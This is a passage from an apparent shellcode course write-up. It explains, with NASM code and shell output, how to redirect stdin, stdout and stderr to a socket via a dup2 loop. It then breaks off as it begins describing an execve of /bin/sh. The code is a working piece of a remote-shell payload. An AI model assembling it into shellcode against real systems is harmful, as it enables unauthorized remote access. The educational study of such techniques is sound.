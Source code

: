 ### Duplicate File Descriptor
Using the duplicate file descriptor, it will be possible to to redirect/duplicate STDIN(0), STDOUT(1) and STDERR(2) through the socket file descriptor. Doing this makes the shell observable.

The first thing to do is identify the system call for `dup2`, this is `63`.

~~~ bash
skawa@ubuntu:~/Desktop/code/assignment/assignment1$ cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep dup
#define __NR_dup		 41
#define __NR_dup2		 63
#define __NR_dup3		330
skawa@ubuntu:~/Desktop/code/assignment/assignment1$
~~~

The arguments required by the `dup2` syscall can then be identified. As seen below, the two arguments that are required are `oldfd` and `newfd`.

~~~ bash
SYNOPSIS
       #include <unistd.h>

       int dup(int oldfd);
       int dup2(int oldfd, int newfd);
~~~

The `oldfd` argument will contain the socket file descriptor, which is currently in the `EDX` register.

The `newfd` argument will contain the value for STDIN(0), STDOUT(1) and STDERR(2). The way this is achieved is through a loop that takes advantage of the signed flag. Once the value in `ECX` has been exhausted, the signed flag will be set, thus permitting the exit of the loop.

~~~ nasm
;dup2
mov ebx, edx ;move the socket file descriptor into EBX to satisfy the oldf2 argument for dup2
xor ecx, ecx  ;clear out ecx
mov cl, 0x2 ;set 2 as the counter for the dup2 loop. The significance of 2 is for STDIN(0), STDOUT(1) and STDERR(2)

redirection_loop:
  mov al, 0x3f ;dup2 syscall
  int 0x80 ;execute dup2 syscall
  dec ecx ;decrement the loop counter
  jns redirection_loop ;conditional jump to the redirection_loop as long as the signed flag (SF) is not set.
~~~

### Execve
Considering that all input, output and error message have been redirected to the socket, the last section to complete is the execution of a shell.

The instructions being used are for a really simple stack-based `execve` SYSCALL that executes `/bin/sh`.
